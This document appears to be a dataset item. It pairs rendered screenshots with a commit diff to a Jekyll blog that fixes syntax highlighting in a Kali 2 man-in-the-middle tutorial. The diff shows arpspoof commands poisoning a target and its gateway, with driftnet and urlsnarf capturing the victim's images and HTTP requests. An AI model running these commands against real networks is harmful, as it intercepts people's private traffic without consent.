

Before and after one commit to xDinomode/Dinosaurscode, a Jekyll site: the page built from _posts/2016-05-10-man-in-the-middle-in-kali-2.md, in a window 1280 px wide. Shown: the part 1307-3227 px from the top of the page at 81% size, without its empty margins (257-1022 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
fixed syntax highlighting kinda

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -18,11 +18,20 @@ enforce_url: "dinosaurscode.xyz"
 
 # Build settings
 permalink: /:categories/:year/:month/:day/:title/
+
 markdown: kramdown
+highlighter: rouge
 
-kramdown:
-  input: GFM
-  hard_wrap: false
+#markdown: kramdown
+
+#kramdown:
+#  input: GFM
+#  hard_wrap: false
+#  syntax_highlighter: rogue
+
+webrick:
+  headers:
+    Dino: Says welcome to my website ;)
 
 exclude:
   - package.json
--- a/_posts/2016-05-10-man-in-the-middle-in-kali-2.md
+++ b/_posts/2016-05-10-man-in-the-middle-in-kali-2.md
@@ -19,12 +19,13 @@ Requirements are [Kali 2](https://www.kali.org)
 
 Run this command and if the output is 0 then we need to change it to 1
 
-```Shell
+```shell
 $ cat /proc/sys/net/ipv4/ip_forward
 ```
+
 <br>
 
-```Shell
+```shell
 $ echo 1 >> /proc/sys/net/ipv4/ip_forward
 ```
 
@@ -34,7 +35,7 @@ $ echo 1 >> /proc/sys/net/ipv4/ip_forward
 
 first
 
-```Shell
+```shell
 $ arpspoof -i eth0 targetiphere gatewayiphere
 ```
 
@@ -42,7 +43,7 @@ $ arpspoof -i eth0 targetiphere gatewayiphere
 
 and then in another terminal
 
-```Shell
+```shell
 $ arpspoof -i eth0 gatewayiphere targetiphere
 ```
 
@@ -52,7 +53,7 @@ $ arpspoof -i eth0 gatewayiphere targetiphere
 
 This will capture images opened by the victim and display them in the black box.
 
-```Shell
+```shell
 $ driftnet -i eth0
 ```
 
@@ -60,6 +61,6 @@ $ driftnet -i eth0
 
 ### Bonus: Run urlsnarf to capture http requests
 
-```Shell
+```shell
 $ urlsnarf -i eth0
 ```
--- a/gulpcss/main.css
+++ b/gulpcss/main.css
@@ -396,7 +396,7 @@ iframe{
 /*End media query 640px*/
 
 /*BEGIN syntax.css*/
-.highlight  { background: #fffff; padding:0; margin:0; word-spacing: -100%;}
+.highlight  { background: #fffff; padding:0; margin:0; word-spacing: 0%;}
 .highlight .c { color: #999988; font-style: italic } /* Comment */
 .highlight .err { color: #a61717; background-color: #e3d2d2 } /* Error */
 .highlight .k { font-weight: bold } /* Keyword */
--- a/package.json
+++ b/package.json
@@ -21,7 +21,7 @@
     "gulp-clean-css": "^2.0.5",
     "gulp-concat": "^2.6.0",
     "gulp-htmlmin": "^1.3.0",
-    "gulp-imagemin": "^2.4.0",
+    "gulp-imagemin": "^3.0.1",
     "gulp-jshint": "^2.0.0",
     "gulp-rename": "^1.2.2",
     "gulp-uglify": "^1.5.3",
````
Also changed, not shown: _posts/2016-05-11-how-to-download-youtube-videos-or-audio-easily.md (+3 -3 lines), _posts/2016-05-12-send-mail-using-python-3.4.md (+3 -4 lines), css/syntax.css (deleted, +0 -1 lines), gulpcss/syntax.css (deleted, +0 -75 lines), css/main.css.
